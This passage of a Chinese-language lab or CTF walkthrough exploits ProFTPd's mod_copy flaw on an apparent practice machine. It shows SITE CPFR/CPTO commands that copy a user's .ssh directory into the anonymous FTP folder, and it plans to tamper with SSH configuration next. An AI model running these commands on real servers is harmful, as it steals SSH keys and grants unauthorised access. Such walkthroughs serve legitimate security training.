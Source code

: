 再次搜索`CPFR`和`CPTO`及其他子命令，发现有意思

| 命令                      | 功能                                                    | 用法示例                                  |
| ------------------------- | ------------------------------------------------------- | ----------------------------------------- |
| `SITE CPFR <sp> pathname` | 指定要复制的源文件路径，用于后续文件复制操作            | `SITE CPFR /home/user/source.txt`         |
| `SITE CPTO <sp> pathname` | 指定复制的目标文件路径，与 `SITE CPFR` 配合完成文件复制 | `SITE CPTO /home/user/destination.txt`    |
| `SITE HELP`               | 获取服务器支持的 `SITE` 子命令的帮助信息                | `SITE HELP`                               |
| `SITE CHGRP`              | 更改远程服务器上文件或目录的所属组                      | `SITE CHGRP newgroup /home/user/test.txt` |
| `SITE CHMOD`              | 修改远程服务器上文件或目录的权限                        | `SITE CHMOD 755 /home/user/test.txt`      |

根据目前来说，当前获取到一个`shell`或者能够登录到靶机是要做的

> 之前在`ftp`连接后的一个文件`directory`，其中是`patrick`的目录，这应该是个用户，因为在文件中发现了`.ssh`，所以猜测路径应该是`/home/patrick`
>
> 尝试复制这个路径下的一些文件，根据前面`enum4linux`枚举的用户来看，有`ftp`，应该是和`patrick`同级别的，那么其目录可能也是`/home/ftp`。
>
> 因为当前可查看到文件的，只能通过`ftp`下载到本地，所以知道`ftp`目录很关键。

若`ftp`目录不是这个，还可以百度一下，其默认的路径。若还不是，就另寻路线了

这时候前面使用`nmap`扫描的`ftp`信息出来了，具体版本为`proftpd 1.2.10`，然后使用`searchsploit`搜索，发现并未合适的，再通过百度和`google`搜索，发现有趣的东西

>在1.1.5版本及以下，`mod_copy`模块存在一个重大安全漏洞，允许远程攻击者通过`site cpfr`和`site cpto`命令读取和写入任意文件。未经验证的客户端可以利用这些命令，在文件系统中自由地复制文件，操作权限等同于运行ProFTPd服务的用户——通常是'nobody'用户。通过将PHP负载复制到网站目录并利用`/proc/self/cmdline`，攻击者可以实现PHP远程代码执行。

# 漏洞利用

那么就尝试，首先需要明白，就是未授权的复制，所以这里复制一些信息到`ftp`目录

```shell
site cpfr /home/patrick/.ssh
site cpto /home/ftp/download/ssh

site cpfr /home/patrick/version_control
site cpto /home/ftp/download/version_control
```

![](./pic-joy/26.jpg)

成功了，啧，那么应该可以修改一些配置文件，比如`ssh`的连接配置，修改后，使得可以指定某些用户可以登录，先查看文件是否有想要的

